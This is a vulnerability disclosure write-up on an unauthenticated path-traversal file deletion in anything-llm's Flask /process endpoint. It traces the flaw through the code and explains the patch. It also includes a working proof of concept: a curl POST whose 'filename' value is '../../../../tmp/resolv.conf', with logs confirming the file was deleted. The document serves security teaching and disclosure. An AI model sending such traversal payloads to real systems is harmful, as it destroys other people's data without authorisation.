


### Overview

This vulnerability was reported on [huntr.dev](https://huntr.com/bounties/afee3726-571f-416e-bba5-0828c815f5df) by [CharlB](https://huntr.com/users/charliebailly), this affects the [anything-llm] web application which setups an API on port 8888. This API is built using python and flask and contains a vulnerability allowing any unauthenticated user to delete any arbitrary file by sending a POST request to `/process` endpoint. 

[How to Identify Similar vulnerabilities](#how-to-identify-similar-vulnerabilities)

### Arbitrary File Deletion via Unvalidated Filename Input in /process Endpoint

Taking a quick look at how the API processes this request:

```py
[..snip..]
from scripts.watch.process_single import process_single

[..snip..]

WATCH_DIRECTORY = "hotdir"
@api.route('/process', methods=['POST'])
def process_file():
  content = request.json
  target_filename = content.get('filename')
  print(f"Processing {target_filename}")
  success, reason = process_single(WATCH_DIRECTORY, target_filename)
  return json.dumps({'filename': target_filename, 'success': success, 'reason': reason})
```
[api.py](https://github.com/Mintplex-Labs/anything-llm/blob/4a67cf21980aee4e5424382c0a90217f03d7bac6/collector/api.py)

A very high level overview of this is that the application parses the JSON data containing the `filename` object and pass it to the `process_single` function.

```py
import os
from .filetypes import FILETYPES
from .utils import move_source

RESERVED = ['__HOTDIR__.md']

# This script will do a one-off processing of a specific document that exists in hotdir.
# For this function we remove the original source document since there is no need to keep it and it will
# only occupy additional disk space.
def process_single(directory, target_doc):
  if os.path.isdir(f"{directory}/{target_doc}") or target_doc in RESERVED: return (False, "Not a file")
  
  if os.path.exists(f"{directory}/{target_doc}") is False: 
    print(f"{directory}/{target_doc} does not exist.")
    return (False, f"{directory}/{target_doc} does not exist.")

  filename, fileext = os.path.splitext(target_doc)
  if filename in ['.DS_Store'] or fileext == '': return False
  if fileext == '.lock':
    print(f"{filename} is locked - skipping until unlocked")
    return (False, f"{filename} is locked - skipping until unlocked")

  if fileext not in FILETYPES.keys():
    print(f"{fileext} not a supported file type for conversion. It will not be processed.")
    move_source(new_destination_filename=target_doc, failed=True, remove=True)
    return (False, f"{fileext} not a supported file type for conversion. It will not be processed.")

  FILETYPES[fileext](
    directory=directory,
    filename=filename,
    ext=fileext,
    remove_on_complete=True # remove source document to save disk space.
  )

  return (True, None)
```

[process_single.py](https://github.com/Mintplex-Labs/anything-llm/blob/4a67cf21980aee4e5424382c0a90217f03d7bac6/collector/scripts/watch/process_single.py)

The `process_single` function as shown above performs some basic check such as checking if the specified file exists on the system or not. It also checks if any of the requested file is a locked file, if it is just skip the processing. There's a special case that if a requested file is not in the allowed extension it attempt to move the requested file to a different directory i.e. `failed` or `processed`. As seen below, following piece of code handles the restricted extension in the requested file and call `move_source` function with `failed` and `remove` both set to `True` and `target_doc` parameter which is the specified file we sent via JSON body i.e. `filename`

```py
if fileext not in FILETYPES.keys():
    print(f"{fileext} not a supported file type for conversion. It will not be processed.")
    move_source(new_destination_filename=target_doc, failed=True, remove=True)
    return (False, f"{fileext} not a supported file type for conversion. It will not be processed.")
```

Checking `move_source` function, we see that if the `remove` and `failed` is set to `True` it will call `os.remove` with `new_destination_filename` as parameter which was `filename` in the previous code where this function was called.

```py
def move_source(working_dir='hotdir', new_destination_filename='', failed=False, remove=False):
  if remove and os.path.exists(f"{working_dir}/{new_destination_filename}"):
    print(f"{new_destination_filename} deleted from filesystem")
    os.remove(f"{working_dir}/{new_destination_filename}")
    return
```
[utils.py](https://github.com/Mintplex-Labs/anything-llm/blob/4a67cf21980aee4e5424382c0a90217f03d7bac6/collector/scripts/watch/utils.py)


### Proof of Concept

Coming to the vulnerability, as you may have noticed that the application doesn't have any logic to check for path traversal or input sanitization on the `filename` parameter. The thing is there's a limited impact but if done cleverly the impact is high, for instance we cannot trigger the vulnerability if the filename doesn't have an extension or if the extension is in allowed list as it will not trigger the `move_source` trigger to perform deletion. So, if we give something like `../../../../../../../etc/passwd` it won't work as the file does not have an extension but giving something like `../../../../../../etc/resolv.conf` as it will trigger the `move_source` function because `.conf` extension isn't allowed.

> The reason we are using `../` is because `os.remove(f"{working_dir}/{new_destination_filename}")` also takes `working_dir` which is `hotdir` into consideration

In this case, I will create a file name `resolv.conf` in `/tmp` folder and will attempt to delete it:

```r
ζ cp /etc/resolv.conf . 
ζ ls -la resolv.conf 
-rw-r--r-- 1 root root 53 Nov  3 00:30 resolv.conf
ζ ls -la resolv.conf
ls: cannot access 'resolv.conf': No such file or directory
```

```sh
ζ curl -X POST -H 'Content-Type: application/json' -d '{"filename":"../../../../../../../tmp/resolv.conf"}' http://localhost:5000/process
{"filename": "../../../../../../../tmp/resolv.conf", "reason": ".conf not a supported file type for conversion. It will not be processed.", "success": false}
```
Checking the API logs:

```r
python3 wsgi.py
 * Serving Flask app 'api'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://127.0.0.1:5000
Press CTRL+C to quit
Processing ../../../../../../../tmp/resolv.conf
.conf not a supported file type for conversion. It will not be processed.
../../../../../../../tmp/resolv.conf deleted from filesystem
127.0.0.1 - - [03/Nov/2023 00:30:48] "POST /process HTTP/1.1" 200 -
```

### Fix

A commit was made to the repository to patch this vulnerability and the patched code now sanitizes the specified parameter for any potential of directory traveral:

```py
import os
from flask import Flask, json, request
from scripts.watch.process_single import process_single
from scripts.watch.filetypes import ACCEPTED_MIMES

@api.route('/process', methods=['POST'])
def process_file():
  content = request.json
  target_filename = os.path.normpath(content.get('filename')).lstrip(os.pardir + os.sep)
  print(f"Processing {target_filename}")
  success, reason = process_single(WATCH_DIRECTORY, target_filename)
  return json.dumps({'filename': target_filename, 'success': success, 'reason': reason})
```

If we see how the modified code is dealing with the payloads that was used to traverse:

```py
>>> os.pardir
'..'
>>> os.pardir + os.sep
'../'
>>> os.pardir + os.sep
'../'
>>> target_filename = os.path.normpath("../../../../../../../password").lstrip(os.pardir + os.sep)
>>> target_filename
'password'
>>> target_filename = os.path.normpath("../../../../../../../password../../../../../").lstrip(os.pardir + os.sep)
>>> target_filename
''
```

### How to Idenitfy Similar Vulnerabilities?

This vulnerability is a cause of improper input validation although it is important to look into the fact how the application process things like files especially if it can somewhow be controlled. Another thing that makes this vulnerability of higher impact is that `/process` action can be perform unauthenticated, it is important to have some form of authentication if a critical action like this is being offered by API. The best way to look for these kind of vulnerabilities is to see all the file-based actions that application is performing and if we can control any aspect of this process. It is better to narrow it down to  functions which handle file-based operations, some of them are listed below:

> It is not an exhaustive list as anyone can write their own functions which may be a wrapper around following functions or others.

* open()
* close()
* read()
* write()
* readline()
* seek()
* tell()
* flush()

Modules:

* os
* shutil
* pathlib
* io
* csv
* json